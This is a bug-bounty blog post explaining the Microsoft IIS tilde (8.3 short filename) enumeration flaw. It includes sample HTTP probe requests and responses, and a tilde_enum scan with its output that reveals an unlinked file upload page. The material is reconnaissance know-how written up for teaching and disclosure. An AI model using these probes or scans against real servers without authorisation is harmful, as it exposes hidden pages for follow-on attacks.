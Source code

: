 +++
title = "Microsoft IIS Tilde Enumeration - Legacy Nightmare"
description = "Discovery of a rare Microsoft IIS Tilde (~) enumeration bug discovered during a bug bounty programme."
date = 2017-07-07
[taxonomies]
tags = ["security"]

[extra]
archive = "This is an old post that has been migrated over one or more times. It may contain issues with certain images and formatting."
+++
Recently during a bug bounty program I came across a particularly, "rare" vulnerability that often few people (myself included) don't quite understand. At first glance, the Microsoft IIS Tilde (~) Enumeration vulnerability seems like one of those cases where a feature is a bug (similar to [XXE](https://web.archive.org/web/20190514192329/https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)).

This article aims to dive deeper into the Windows filesystem, the enumeration vulnerability and it's impact on a web application.

> **Note** &mdash; All the information here is from a live bug bounty and not a local test setup to display the vulnerability. Public disclosure has not yet been granted and thus any references to the actual web application have been omitted.

---

## Feature Rich

When creating a new file on a Windows system, a short file name is generated using 8.3 format which can be seen when opening up your command prompt and running `dir /X` like so.

![](0lzbW4V.png)

This might seem obvious and not so horrible at first glance. Let's tackle this from a different perspective. I originally had a file named fileupload-20170707-N6L7dR4KcA.aspx which in the 8.3 file format is translated to `FILEUP~1.ASP`. I can now access the resource whilst only having to guess 12 characters instead of 32 and thus **greatly** reduced the total number of combinations required!

Some of you may be asking, "Why the short name?". The answer is essentially, to support old MS-DOS or 16-bit programs; this is the foundation for everything else that occurs throughout this article. That out of the way, enough with the boring stuff. Let's try to get a real target.

## The Target

When an application is powered by ASP.NET there is a good chance that the vulnerability can be found in some form or another. The idea is to cause the application to give a different response for more or less the same resource. However to confirm that the resource exists, I ran two tests.

### First Test

Check that the application will not respond differently when the file actually does not exist. Starting without the `~1` in the path.

#### Request

```none
GET /nonexistent-random-file/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 404 Not Found
Cache-Control: no-cache
Pragma: no-cache
Content-Type: text/html
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
```

So far so good, let's try the same thing using the `~1` instead.

#### Request

```none
GET /nonexistent-random-file~1/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 404 Not Found
Cache-Control: no-cache
Pragma: no-cache
Content-Type: text/html
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
```

Same response, which is what we are looking for here. Great, now moving on to the next stage.

### Second Test

We know that the server will always respond with a `404 Not Found` when the file either in normal format or in 8.3 format does not exist. What happens when we try to access a file using 8.3 format that does exist? The server will respond with a `404 Not Found` if the resource does not exist, even if we use 8.3 format. Let's see what we can do to trigger another response.

#### Request

```none
GET /fileup~1/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 200 OK
Connection: close
Cache-Control: no-cache
Content-Type: text/html; charset=utf-8
Pragma: no-cache
Content-Length: 576
```

Bang! The site returned a 200 OK but still told us that the request was rejected:

_Error with your request_

That's great, we managed to get a different response which means there is something lingering in there.

## Extending the Discovery

Testing all of this manually is monkey's work. Let's use an automated tool such as [tilde_enum](https://web.archive.org/web/20190514192329/https://github.com/WebBreacher/tilde_enum) (used Python v2.7.11) instead to see if it finds anything juicy.

We need to first download a WORDLIST for the scanner to use. I happened to use the following [list](https://web.archive.org/web/20190514192329/https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web_Content/raft-small-words-lowercase.txt). Kicking off the scan.

```cmd
C:\tmp\tilde_enum-master>"C:/Python27/python" tilde_enum.py -u https://example.com/ -w raft-small-words-lowercase.txt -f
[-] Testing with dummy file request https://example.com/PLb4ftIiaW.htm
[-] URLNotThere -> HTTP Code: 404, Response Length: 1245
[-] Testing with user-submitted https://example.com/
[-] URLUser -> HTTP Code: 200, Response Length: 3775
[!] You have used the -f switch to force us to scan. Well played. Using the IIS/6 "*~1*/.aspx" string.
[+] Found a directory: advert
[+] Found a directory: app_of
[+] Found a directory: aspnet
[+] Found a directory: associ
[+] Found a directory: buyers
[+] Found a directory: commit
[+] Found a directory: confer
[+] Found a directory: errorp
[+] Found a directory: fileup
[+] Found a directory: fundra
[+] Found a directory: leader
[+] Found file: logo-2 . jpg
[+] Found a directory: mainte
[+] Found a directory: member
[+] Found a directory: messag
[+] Found a directory: resour
[+] Found a directory: subscr
[+] Found a directory: testlo
[+] Found a directory: webbac
[+] Found a directory: webpor
[-] Finished doing the 8.3 enumeration for /.
```

This is only a subset of the entire scan however we already found something juicy in there. From the list I can see filup which as most of you have already guessed, maps to `fileupload.aspx`. Let's find out.

Sending the first request to `fileup~1` like we saw before also return a `200 OK` along with the response.

![](rpGofln.png)

Let's try accessing the file directly using `fileupload.aspx` instead and see if it responds with the actual file.

![](A5h4l7f.png)

Looks like we just scraped the tip of the iceberg! A random file upload page that isn't linked anywhere in the web application but can be accessed directly; definitely juicy.

## Conclusion

That is all with regards to the Microsoft IIS Tilde Enumeration vulnerability. Below are some references and resources that would help you learn further and into more detail should you wish to.

The vulnerability itself may not seem scary alone but it could definitely expose some sensitive pages or directories to chain into another attack.

---

## Resources

* https://www.acunetix.com/blog/web-security-zone/windows-short-8-3-filenames-web-security-problem/
* http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf
* https://github.com/WebBreacher/tilde_enum
